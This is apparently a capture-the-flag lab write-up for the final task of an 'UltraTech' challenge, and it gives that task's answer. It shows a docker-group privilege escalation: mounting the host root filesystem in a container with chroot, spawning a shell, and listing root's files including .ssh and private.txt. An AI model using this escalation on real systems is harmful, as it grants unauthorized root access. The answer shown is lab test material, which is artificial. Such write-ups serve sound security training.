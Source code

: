 
### Task 4: The root of all evil

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

**_Answer the questions below_**

1. **What are the first 9 characters of the root user's private SSH key?**

- **_Ans: MIIEogIBA_**

Lets SSH Using Crack Password r00t@IP

We have found that `r00t` is part of Docker Group. Lets Escalate Priviledges

```
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh

id

id
# # uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
#
# which python
/usr/bin/python
# python -c 'import pty;pty.spawn("/bin/bash")'
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@468bed3844fa:/#

```

```
root@468bed3844fa:~# ls -la
total 40
drwx------  6 root root 4096 Mar 22  2019 .
drwxr-xr-x 23 root root 4096 Mar 19  2019 ..
-rw-------  1 root root  844 Mar 22  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Mar 22  2019 .cache
drwx------  3 root root 4096 Mar 22  2019 .emacs.d
drwx------  3 root root 4096 Mar 22  2019 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Mar 22  2019 .python_history
drwx------  2 root root 4096 Mar 22  2019 .ssh
-rw-rw-rw-  1 root root  193 Mar 22  2019 private.txt
root@468bed3844fa:~# cat private.txt
# Life and acomplishments of Alvaro Squalo - Tome I

Memoirs of the most successful digital nomdad finblocktech entrepreneur
in the world.

By himself.

## Chapter 1 - How I became successful

```